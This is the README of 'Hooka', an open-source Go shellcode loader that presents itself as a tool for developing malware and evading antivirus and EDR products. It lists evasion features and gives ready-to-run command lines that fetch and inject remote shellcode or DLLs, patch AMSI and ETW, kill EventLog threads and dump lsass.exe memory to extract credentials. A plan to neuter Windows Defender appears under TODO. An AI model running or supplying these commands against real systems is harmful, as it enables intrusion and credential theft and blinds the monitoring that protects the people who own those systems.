





<p align="center">
  
  <h1 align="center">Hooka</h1>
  <h4 align="center">Evasive shellcode loader, hooks detector and more</h4>
  <h6 align="center">Coded with 💙 by D3Ext</h6>
</p>

<p align="center">

  <a href="https://opensource.org/licenses/MIT">
    
  </a>

  <a href="https://github.com/D3Ext/Hooka/blob/main/CHANGELOG.md">
    
  </a>

  <a href="https://github.com/D3Ext/go-recon/issues">
    
  </a>

  <a href="https://goreportcard.com/report/github.com/D3Ext/Hooka">
      
  </a>


</p>

<p align="center">
  <a href="#introduction">Introduction</a> •
  <a href="#features">Features</a> •
  <a href="#usage">Usage</a> •
  <a href="#library">Library</a> •
  <a href="#contributing">Contributing</a> •
  <a href="#disclaimer">Disclaimer</a>
</p>

# Introduction

I started this project to create a powerful shellcode loader with a lot of malleable capabilities via CLI flags like detecting hooked functions, using Hell's and Galo's Gate techniques and more. Why in Golang? Because it's a great language to develop malware and this project can help with it by providing an stable API with some functions which can be really useful. If you have any question feel free to open an issue or whatever you want.

However I've also taken some code from [BananaPhone](https://github.com/C-Sto/BananaPhone) and [Doge-Gabh](https://github.com/timwhitez/Doge-Gabh) projects (thanks a lot to ***C-Sto*** and ***timwhitez***)

***Tested on x64, Windows 10***

# Features

- Get shellcode from remote URL or local file
- Shellcode reflective DLL injection (***sRDI***)
- ***AMSI*** and ***ETW*** patch
- ***Phant0m*** technique to kill EventLog threads (see [here](https://github.com/hlldz/Phant0m))
- Detects hooked functions (i.e. NtCreateThread)
- Compatible with base64 and hex encoded shellcode
- Hell's Gate + Halo's Gate technique
- Capable of unhooking user-mode syscalls via multiple techniques:
  - Classic unhooking
  - Full DLL unhooking
  - Perun's Fart technique

- Multiple shellcode injection techniques:
  - CreateRemoteThread
  - CreateProcess
  - EnumSystemLocales
  - Fibers
  - QueueUserApc
  - UuidFromString
  - EtwpCreateEtwThread
  - RtlCreateUserThread

- Inject shellcode into a process (not stable and only works via CreateRemoteThread technique)
- Dump lsass.exe process to a file
- Windows API hashing (see [here](https://www.ired.team/offensive-security/defense-evasion/windows-api-hashing-in-malware))
- Test mode (injects calc.exe shellcode)

- All already mentioned features available through official package API

***This repo is under development so it may contain errors, use it under your own responsability for legal testing purposes***

# Installation

- Just clone the repository like this:

```sh
git clone https://github.com/D3Ext/Hooka
cd Hooka
make
```

# Usage

Before using the project you should know that there are some functions from `ntdll.dll` that aren't usually hooked but they always appear to be hooked. Here you have all false positives:

```
NtGetTickCount
NtQuerySystemTime
NtdllDefWindowProc_A
NtdllDefWindowProc_W
NtdllDialogWndProc_A
NtdllDialogWndProc_W
ZwQuerySystemTime
```

- Let's see some examples

> Help panel
```
```

> Detect hooked functions by EDR (including false positives)
```sh
.\Hooka.exe --hooks
```

> Test shellcode injection by spawning a calc.exe
```sh
.\Hooka.exe --test
```

> Inject shellcode from URL or file
```sh
.\Hooka.exe --url http://192.168.116.37/shellcode.bin
.\Hooka.exe --file shellcode.bin
```

> Shellcode reflective dll injection (***sRDI***)
```sh
.\Hooka.exe --dll evil.dll,xyz
.\Hooka.exe --remote-dll http://192.168.1.37/evil.dll,xyz
```

> Inject shellcode into remote process (i.e. werfault.exe) **Not all techniques covered!!**
```sh
.\Hooka.exe --url http://192.168.116.37/shellcode.bin --pid 5864
```

> Decode shellcode as hex or base64
```sh
.\Hooka.exe --file shellcode.bin --hex
.\Hooka.exe --file shellcode.bin --b64
```

> Use Hell's Gate + Halo's Gate to bypass AVs/EDRs
```sh
.\Hooka.exe -t CreateRemoteThreadHalos --url http://192.168.116.37/shellcode.bin
```

> Unhook function before injecting shellcode
```sh
.\Hooka.exe --file shellcode.bin --unhook 3
```

> Patch AMSI and/or ETW
```sh
.\Hooka.exe --amsi --url http://192.168.116.37/shellcode.bin
.\Hooka.exe --etw --url http://192.168.116.37/shellcode.bin
```

> Kill EventLog service threads (run as admin)
```sh
.\Hooka.exe --phantom
```

> Dump lsass.exe memory to extract credentials (run as admin)
```sh
.\Hooka.exe --lsass dump.tmp
```

As you can see Hooka provides a lot of CLI flags to help you in all kind of situations

# Demo

> Detecting hooks


> Injecting shellcode via CreateRemoteThread technique


> Injecting shellcode using custom flags


> Test function


> Dump lsass memory


# TODO

:ballot_box_with_check: Block other processes to open our process like [BlockOpenHandle](https://github.com/TheD1rkMtr/BlockOpenHandle)

:ballot_box_with_check: Unhook patch (write bytes)

:black_square_button: `--pid` flag to handle process injection

:ballot_box_with_check: Function to find PIDs which haven't loaded a given DLL (i.e. umppc16606.dll)

:black_square_button: Remove Windows Defender privileges to make it useless (see [here](https://github.com/plackyhacker/SandboxDefender))

:black_square_button: Test unhooking functions against EDRs

# Library

To use the official package API see [here](https://github.com/D3Ext/Hooka/tree/main/examples) and [here](https://github.com/D3Ext/Hooka/tree/main/pkg/hooka)

# Contributing

See [CONTRIBUTING.md](https://github.com/D3Ext/Hooka/blob/main/CONTRIBUTING.md)

# References

You can take a look at some of the mentioned techniques here:

```
https://github.com/C-Sto/BananaPhone
https://github.com/timwhitez/Doge-Gabh
https://github.com/Ne0nd0g/go-shellcode
https://github.com/trickster0/TartarusGate
https://github.com/Kara-4search/HookDetection_CSharp
https://github.com/RedLectroid/APIunhooker
https://github.com/plackyhacker/Peruns-Fart
https://github.com/chvancooten/maldev-for-dummies
https://blog.sektor7.net/#!res/2021/perunsfart.md
https://teamhydra.blog/2020/09/18/implementing-direct-syscalls-using-hells-gate/
https://www.ired.team/offensive-security/defense-evasion/detecting-hooked-syscall-functions#checking-for-hooks
https://www.ired.team/offensive-security/defense-evasion/how-to-unhook-a-dll-using-c++
https://www.ired.team/offensive-security/defense-evasion/retrieving-ntdll-syscall-stubs-at-run-time
https://www.ired.team/offensive-security/defense-evasion/windows-api-hashing-in-malware
```

# Disclaimer

Creator has no responsibility for any kind of:

- Illegal use of the project.
- Law infringement by third parties and users.
- Malicious act, capable of causing damage to third parties, promoted by the user through this software.

# Changelog

See [CHANGELOG.md](https://github.com/D3Ext/Hooka/blob/main/CHANGELOG.md)

# License

This project is under [MIT](https://github.com/D3Ext/Hooka/blob/main/LICENSE) license

Copyright © 2023, *D3Ext*

# Support

<a href="https://www.buymeacoffee.com/D3Ext" target="_blank"></a>


